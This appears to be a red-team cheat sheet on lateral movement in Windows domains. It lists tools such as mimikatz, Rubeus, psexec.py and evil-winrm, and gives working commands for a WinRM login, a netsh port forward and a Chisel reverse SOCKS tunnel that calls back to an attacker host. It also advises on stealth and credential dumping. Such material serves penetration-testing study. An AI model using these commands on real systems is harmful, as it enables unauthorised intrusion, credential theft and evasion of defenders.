

 

_Goal: Move laterally across systems to access additional machines, credentials, or data._

---

### **Objectives**

- Use current access to move laterally to other systems
    
- Identify routes to high-value systems (e.g., file servers, domain controllers)
    
- Maintain stealth and minimize detection during movement
    

---

### **Mermaid Diagram**



  

---

### **Techniques and Tools**

|**Technique**|**Tool/Command**|**Notes**|
|---|---|---|
|Host Discovery|fping, nmap, PowerShell Test-Connection|Identify live hosts on subnets|
|Session Detection|quser, Get-NetSession, Invoke-UserHunter (PowerView)|Look for where users are logged in|
|SMB Pivot|wmiexec.py, psexec.py, crackmapexec|Leverage creds to execute commands over SMB|
|WMI Pivot|wmiexec.py, Invoke-WmiMethod|Remote command execution via WMI|
|WinRM Pivot|evil-winrm, Enter-PSSession|Preferred for stealthy and PowerShell-based access|
|RDP Pivot|xfreerdp, mstsc|Full interactive access if RDP is enabled|
|Reverse Proxy (Socks)|Chisel, SSH -D, proxychains, meterpreter socks4a|Create pivot tunnels for scanning or shell access|
|Port Proxy|netsh interface portproxy|Forward ports via compromised system|
|Token Impersonation|mimikatz, Incognito, Rubeus|Use available tokens from other logged-in users|
|TGT/TGS Delegation Abuse|Rubeus, kerberos::ptt, unconstrained delegation|Move using ticket-based attacks|

  

---

### **Example: Pivot via Evil-WinRM**

```
evil-winrm -i <IP> -u <USER> -p <PASS>
```

  

---

### **Example: Chisel SOCKS Reverse Proxy**

```
# On attacker (server)
./chisel server -p 8080 --reverse

# On target (client)
chisel.exe client <attacker_ip>:8080 R:socks
```

Then configure /etc/proxychains.conf with:

```
socks5 127.0.0.1 1080
```

  

---

### **Example: Port Forwarding with netsh**

```
netsh interface portproxy add v4tov4 listenport=1515 listenaddress=10.10.10.10 connectport=3389 connectaddress=172.16.6.50
```

  

---

### **Pro Tips**

- Use proxychains or Chisel to make BloodHound, nmap, and xfreerdp work through internal pivots
    
- Combine Find-LocalAdminAccess + valid creds to chain pivots
    
- After each new box, re-check for **priv escalation** and **credential dumping opportunities**
    
